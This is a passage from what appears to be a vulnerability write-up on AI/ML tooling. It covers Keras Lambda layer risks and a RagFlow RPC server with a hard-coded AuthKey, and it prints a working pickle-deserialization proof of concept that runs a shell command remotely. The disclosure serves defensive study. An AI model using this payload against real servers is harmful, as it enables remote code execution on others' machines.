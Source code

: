 Impact :
1. Access sensitive information (e.g., SSH keys, cloud credentials)
2. Execute malicious code on your system
3. Use the compromised system as a vector for broader attacks

Remediation: If possible, avoid using Keras models with Lambda layers since a lambda layer allows for arbitrary code execution that can be exploited by an attacker.

### Deserialization of untrusted Data 


`RagFlow` implements an RPC server using Python's native `multiprocessing` package. It fully understands the use of `AuthKey` to access and control the group communication when applying `multiprocessing` for network conditions via socket, but the current implementation hard-coded the `AuthKey` to `authkey=b'infiniflow-token4kevinhu'`, which the attackers can easily fetch the key and join the group communication without restrictions. Even worse, the `RagFlow` calls `pickle.loads()` to directly process `connection.recv()` and thus is vulnerable to pickle deserialization to RCE.
Victim Setup : The victim starts the RPC server by running

```python
python rag/llm/rpc_server.py --model_name jonastokoliu/causal_lm_distilgpt2_eli5_finetune
```

Here using the model `jonastokoliu/causal_lm_distilgpt2_eli5_finetune` from HuggingFace just for demonstration, and the victim can choose any other models by their preferences.

Attack Step: The attacker can run the following Python code to attack:

```python
from multiprocessing.connection import Client
import pickle

class payload:
    def __reduce__(self):
        return (__import__('os').system, ("touch /tmp/hacked",))

c = Client(("192.16x.x.xxx", 7860), authkey=b'infiniflow-token4kevinhu')
c.send(pickle.dumps(payload()))
```

and then the file `/tmp/hacked` has been illegally created at the victim's local machine.

Impact: Remote code execution in the victim's machine.

## Infrastructure Vulnerabilities

The most damaging attacks target infrastructure rather than AI models:

- **Resource Hijacking**: Multiple cases of crypto mining using stolen compute resources
- **Data Exposure**: Breaches exposing customer data and model training information
- **Cloud Misconfigurations**: Leading to unauthorized access to AI training infrastructure

### Improper Access Control 
Unauthorized database export to Google BigQuery in [lunary-ai/lunary](https://github.com/lunary-ai/lunary)
